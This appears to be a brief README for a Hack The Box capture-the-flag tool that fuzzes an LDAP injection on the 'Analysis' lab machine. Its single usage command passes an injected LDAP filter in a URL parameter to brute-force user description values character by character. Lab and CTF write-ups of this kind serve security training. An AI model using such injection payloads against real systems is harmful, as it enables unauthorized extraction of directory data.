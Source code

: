 # LDAP-Analysis-HTB
## USAGE 

```bash
python3 fuzzer.py --charset /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --url "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
```
